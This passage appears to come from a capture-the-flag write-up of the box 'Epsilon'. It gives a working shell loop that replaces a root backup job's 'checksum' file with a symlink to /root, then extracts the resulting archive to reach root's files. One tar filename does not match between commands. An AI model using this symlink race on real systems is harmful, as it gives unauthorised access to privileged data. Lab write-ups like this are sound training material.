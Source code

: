 

    while :; do 
            if test -f checksum; then 
                    rm -f checksum; 
                    ln -s /root checksum; 
                    echo "Replaced checksum"; 
                    sleep 5; 
                    echo "Backup probably done now";
                    break;
            fi; 
            sleep 1; 
    done



This will loop ever second, each time checking for the existence of
`checksum` in the current directory. When it does exist, it will remove
it, and replace it with a symbolic link. Then it prints, sleeps, and
prints again, and exits the loop. I'll run this on Epsilon:



    tom@epsilon:/opt/backups$ while :; do if test -f checksum; then rm -f checksum; ln -s /root checksum; echo "Replaced checksum"; sleep 5; echo "Backup probably done now"; break; fi; sleep 1; done
    Replaced checksum
    Backup probably done now



The new backup is significantly larger than the others:



    tom@epsilon:/var/backups/web_backups$ ls -l
    total 159848
    -rw-r--r-- 1 root root  1003520 Mar  9 21:00 313767730.tar
    -rw-r--r-- 1 root root  1003520 Mar  9 21:01 333334780.tar
    -rw-r--r-- 1 root root  1003520 Mar  9 21:02 358658250.tar
    -rw-r--r-- 1 root root  1003520 Mar  9 21:03 386669510.tar
    -rw-r--r-- 1 root root 80332800 Mar  9 21:04 498453770.tar



I'll copy it to `/dev/shm` and and extract it:



    tom@epsilon:/var/backups/web_backups$ cp 645074490.tar /dev/shm/
    tom@epsilon:/var/backups/web_backups$ cd /dev/shm/
    tom@epsilon:/dev/shm$ tar xf 498453770.tar 
    tar: opt/backups/checksum/.bash_history: Cannot mknod: Operation not permitted
    tar: Exiting with failure status due to previous errors



There are a couple errors, but over all it works. There's an `opt`
directory:



    tom@epsilon:/dev/shm$ ls
    498453770.tar  multipath  opt
    tom@epsilon:/dev/shm$ cd opt/backups       
    tom@epsilon:/dev/shm/opt/backups$
    tom@epsilon:/dev/shm/opt/backups$ ls -l
    total 972
    -rw-r--r-- 1 tom tom 993280 Mar  9 21:07 637358080.tar
    drwx------ 9 tom tom    300 Dec 20 11:06 checksum
